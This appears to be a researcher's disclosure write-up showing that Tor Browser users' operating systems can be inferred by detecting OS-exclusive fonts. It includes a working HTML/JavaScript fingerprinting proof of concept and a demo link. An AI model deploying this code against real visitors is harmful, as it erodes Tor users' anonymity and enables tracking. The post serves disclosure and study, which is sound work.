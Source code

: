 ```yaml
---
layout: content
title: 'Detecting Tor Browser platform based on exclusive fonts rendering'
description: 'Through the rendering of some specific Fonts, I discovered that it is possible to identify operating system from a user behind Tor and after reporting this to the Tor Project I was told that they were already aware of the problem and there are already some implementations to minimize the impact of this vulnerability.'
og_image: https://heitorgouvea.me/images/publications/tor-detect-platform/tor-browser-macos.png
---
```


Table of contents:
- [Summary](#summary)
- [Description](#description)
- [Prooft of Concept](#proof-of-concept)
- [Impact](#impact)
- [Conclusion](#conclusion)
- [References](#references)

### Summary

Through the rendering of some specific Fonts, I discovered that it is possible to identify operating system from a user behind Tor and after reporting this to the Tor Project I was told that they were already aware of the problem and there are already some implementations to minimize the impact of this vulnerability.

---

### Description

The Tor Browser [[1]](#references) is based on Firefox, with its peculiarities and promises of privacy/digital anonymity [[2]](#references), in addition to all engineering to hide the IP from a user, Tor also promises to combat identifications that are linked to the operating system, such for example: techniques that use JavaScript to capture the screen size and identify a unique feature of it, among others.

However, it's possible to find out the operating system of a person using Tor via a technique that makes use of Fonts "exclusive" to some operating systems.

For example, the font “Lucida Grande” is one of them, which by default is only installed on MacOS, so when an HTML page tries to render it and is successful it can be concluded that that user is using “Tor on a MacOS”, already an example to identify users using “Tor on Windows” would be the font “MS Gothic” among many other examples.

After reporting this problem, I was told that the Tor Project is already aware [[3]](#references) of all of this, and some implementations are already present in the current version of Tor to reduce the impact of this vulnerability and there are also plans for the future so that it ceases to exist for complete. More information about this can be found at: [https://2019.www.torproject.org/projects/torbrowser/design](https://2019.www.torproject.org/projects/torbrowser/design/) [[4]](#references)

---

### Proof of Concept

Exploit:

```html
<html>
    <head>
        <title>PoC Fingerprint</title>
        <meta charset="utf-8"/>
        <style type="text/css">
            body {
                font-family: "Lucida Grande";
            }
        </style>
    </head>
    <body>
        <h1>Hello World</h1>
    </body>
    <script>
        (function (document) {
            var width;
            var body = document.body;
            var container = document.createElement("span");

            container.innerHTML = Array(100).join("wi");
            container.style.cssText = [
                "position: absolute",
                "width: auto",
                "font-size: 128px",
                "left: -99999px"
            ].join(" !important;");

            var getWidth = function (fontFamily) {
                container.style.fontFamily = fontFamily;

                body.appendChild(container);
                width = container.clientWidth;
                body.removeChild(container);

                return width;
            };

            var monoWidth  = getWidth("monospace");
            var serifWidth = getWidth("serif");
            var sansWidth  = getWidth("sans-serif");

            window.isFontAvailable = function (font) {
                return monoWidth !== getWidth(font + ",monospace") ||
                sansWidth !== getWidth(font + ",sans-serif") ||
                serifWidth !== getWidth(font + ",serif");
            };
        })(document);

        if (isFontAvailable("Lucida Grande")) {
            alert("You are using the MacOS plataform");
        }

        else if (isFontAvailable("MS Gothic")) {
            alert("You are using the Windows plataform");
        }

        else {
            alert("You are not using the MacOs/Windows Platform");
        }
    </script>
</html>
```

If you prefer, you can see a live demo [clicking here.](https://heitorgouvea.me/public/payloads/tor-browser-fonts-exploit.html) User identification using Tor on MacOS:

![](/images/publications/tor-detect-platform/tor-browser-macos.png)

User identification using Tor on Windows: 

![](/images/publications/tor-detect-platform/tor-browser-windows.jpeg)

There is a margin of error in this technique, as a user can install fonts that are not the default for an operating system, but an attacker can make use of even more esoteric fonts to minimaze that margin of error.

---

### Impact

With this technique it is possible to identify the operating system of a user who is using Tor. On a website with low traffic volume, this distinction is enough to exclusively track users, already for a website with high traffic, allows you to track users in a unique way in a short period of time.

---

### Conclusion

This vulnerability can be combined with others to develop a profile unique enough to track users on Tor. However, it is reassuring to know that the team behind Tor Browser is extremely agile and is very close to the research community, this certainly helps a lot to minimize the risks around this vulnerability.

---

### References

- [1] [https://www.torproject.org/](https://www.torproject.org/)
- [2] [https://en.wikipedia.org/wiki/Tor_(anonymity_network)](https://en.wikipedia.org/wiki/Tor_(anonymity_network))
- [3] [https://2019.www.torproject.org/projects/torbrowser/design/](https://2019.www.torproject.org/projects/torbrowser/design/)
- [4] [https://gitlab.torproject.org/tpo/applications/tor-browser/-/issues/18097](https://gitlab.torproject.org/tpo/applications/tor-browser/-/issues/18097)
- [5] [https://www.samclarke.com/javascript-is-font-available/](https://www.samclarke.com/javascript-is-font-available/)